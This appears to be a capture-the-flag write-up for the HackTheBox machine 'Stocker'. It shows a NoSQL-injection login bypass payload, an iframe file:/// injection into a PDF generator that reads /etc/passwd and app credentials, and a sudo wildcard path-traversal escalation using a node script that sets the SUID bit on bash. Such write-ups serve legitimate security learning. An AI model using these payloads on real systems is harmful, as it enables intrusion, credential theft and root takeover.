 # Stocker

## Gaining Access

Nmap scan:

```bash
$ nmap -p- --min-rate 3000 10.129.98.240 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-01-19 00:30 EST
Nmap scan report for stocker.htb (10.129.98.240)
Host is up (0.015s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

The domain was `stocker.htb`, and we can add that to the `/etc/hosts` file.

### Subdomain Fuzzing

There was nothing of interest on the website. `gobuster` scans and default enumeration did not really help out a lot.&#x20;

I decided to use `wfuzz` to fuzz the possible subdomains present on the website, and actually found one at `dev.stocker.htb`.

<figure><img src="../../../.gitbook/assets/image (8) (6) (1).png" alt=""><figcaption></figcaption></figure>

Interesting.

### Login Bypass

At the dev site, all we see is one login page:

<figure><img src="../../../.gitbook/assets/image (6) (2) (2).png" alt=""><figcaption></figcaption></figure>

I tested out `sqlmap` or other SQL injections but it didn't work. It seems that we have to bypass this login to carry on with the machine. Proxying the traffic via Burp gave me a clearer picture on the error received when I entered wrong credentials:

```http
POST /login HTTP/1.1
Host: dev.stocker.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 27
Origin: http://dev.stocker.htb
Connection: close
Referer: http://dev.stocker.htb/login
Cookie: connect.sid=s%3Akg1SjHeFtX5eT0qfyd1SYLx_R3NRwNQ4.1K3jgUazClJr3WYMiGo9H9WoN6Di9M3ZGN4z9qgzMXU
Upgrade-Insecure-Requests: 1

username=test&password=test
```

There was a `connect.sid` endpoint, indicating that this was some type of Express website. Perhaps this was using MongoDB instead of regular SQL. I tested this JSON payload to bypass the login and it worked.

```json
{"username": {"$ne": "foo"}, "password": {"$ne": "bar"} }
```

<figure><img src="../../../.gitbook/assets/image (7) (3) (4).png" alt=""><figcaption></figcaption></figure>

The website was some ordering website where we could place orders for items.

<figure><img src="../../../.gitbook/assets/image (10) (5).png" alt=""><figcaption></figcaption></figure>

### Stock LFI

I added some items and attemted to checkout from the website.

<figure><img src="../../../.gitbook/assets/image (9) (4) (2).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (1) (2) (4).png" alt=""><figcaption></figcaption></figure>

Viewing the purchase order brought us to a PDF page.

<figure><img src="../../../.gitbook/assets/image (4) (2) (1).png" alt=""><figcaption></figcaption></figure>

I downloaded the PDF and used `exiftool` on it to find that Skia is used to generate this PDF from Chromium.

```
$ exiftool document.pdf
ExifTool Version Number         : 12.49
File Name                       : document.pdf
Directory                       : .
File Size                       : 38 kB
File Modification Date/Time     : 2023:01:17 04:05:40-05:00
File Access Date/Time           : 2023:01:17 04:05:50-05:00
File Inode Change Date/Time     : 2023:01:17 04:05:40-05:00
File Permissions                : -rw-r--r--
File Type                       : PDF
File Type Extension             : pdf
MIME Type                       : application/pdf
PDF Version                     : 1.4
Linearized                      : No
Page Count                      : 1
Tagged PDF                      : Yes
Creator                         : Chromium
Producer                        : Skia/PDF m108
Create Date                     : 2023:01:17 09:05:09+00:00
Modify Date                     : 2023:01:17 09:05:09+00:00
```

Additionally, this was the request sent when we clicked checkout.

```http
POST /api/order HTTP/1.1
Host: dev.stocker.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://dev.stocker.htb/stock
Content-Type: application/json
Origin: http://dev.stocker.htb
Content-Length: 162
Connection: close
Cookie: connect.sid=s%3Akg1SjHeFtX5eT0qfyd1SYLx_R3NRwNQ4.1K3jgUazClJr3WYMiGo9H9WoN6Di9M3ZGN4z9qgzMXU

{"basket":[{"_id":"638f116eeb060210cbd83a8d","title":"Cup","description":"It's a red cup.","image":"red-cup.jpg","price":32,"currentStock":4,"__v":0,"amount":1}]}
```

The exploit is obviously to do with some parameter within the request being vulnerable when generating the RCE. I did some research on PDF related exploits, and found that it was possible to inject some HTML frames to cause an LFI.

{% embed url="https://techkranti.com/ssrf-aws-metadata-leakage/" %}

I attempted this exploit using the `file:///` wrapper to read the `/etc/passwd` file and it worked within the `title` header in the JSON data.

```
<iframe src='file:///etc/passwd' width=500px height=1000px ></iframe>
```

<figure><img src="../../../.gitbook/assets/image (5) (4) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (39) (2).png" alt=""><figcaption></figcaption></figure>

We find that the user is called `angoose`. I attempted to read more files such as the private SSH key of the user, but it seems that I either could not read it or it did not exist.

Remembering that this was an Express website, perhaps there was a Javascript file that I could read to find some credentials, particularly those used to access this server in the first place. WIthin  the `/var/www/dev/index.js` file, I managed to find some credentials.

<figure><img src="../../../.gitbook/assets/image (2) (6).png" alt=""><figcaption></figcaption></figure>

With this password, we can `ssh` in as `angoose`.&#x20;

<figure><img src="../../../.gitbook/assets/image (3) (2) (1) (3).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Sudo

Checking sudo permissions, we find that `angoose` can use `node` as an administrator. There's also a wildcard in the scripts we can execute, which is never a good thing.

```
angoose@stocker:~$ sudo -l
[sudo] password for angoose: 
Sorry, try again.
[sudo] password for angoose: 
Matching Defaults entries for angoose on stocker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User angoose may run the following commands on stocker:
    (ALL) /usr/bin/node /usr/local/scripts/*.js
```

Within that folder, there are some scripts already present.

```
angoose@stocker:/usr/local/scripts$ ls -la
total 32
drwxr-xr-x  3 root root 4096 Dec  6 10:33 .
drwxr-xr-x 11 root root 4096 Dec  6 10:33 ..
-rwxr-x--x  1 root root  245 Dec  6 09:53 creds.js
-rwxr-x--x  1 root root 1625 Dec  6 09:53 findAllOrders.js
-rwxr-x--x  1 root root  793 Dec  6 09:53 findUnshippedOrders.js
drwxr-xr-x  2 root root 4096 Dec  6 10:33 node_modules
-rwxr-x--x  1 root root 1337 Dec  6 09:53 profitThisMonth.js
-rwxr-x--x  1 root root  623 Dec  6 09:53 schema.js
```

I don't have write permissions in this folder. Neither can I read the scripts to find out what they do. However, because there's a wildcard, we can just enter `../../` to execute any script we want.

Here's a basic JS script for RCE using `child_process`.

```javascript
#!/usr/bin/node
require('child_process').exec('chmod u+s /bin/bash')
```

Then, we can simply do this:

```
angoose@stocker:~$ sudo /usr/bin/node /usr/local/scripts/../../../../../home/angoose/evil.js 
angoose@stocker:~$ ls -la /bin/bash
-rwsr-xr-x 1 root root 1183448 Apr 18  2022 /bin/bash
angoose@stocker:~$ /bin/bash -p
bash-5.0# id
uid=1001(angoose) gid=1001(angoose) euid=0(root) groups=1001(angoose)
```

Pwned.&#x20;
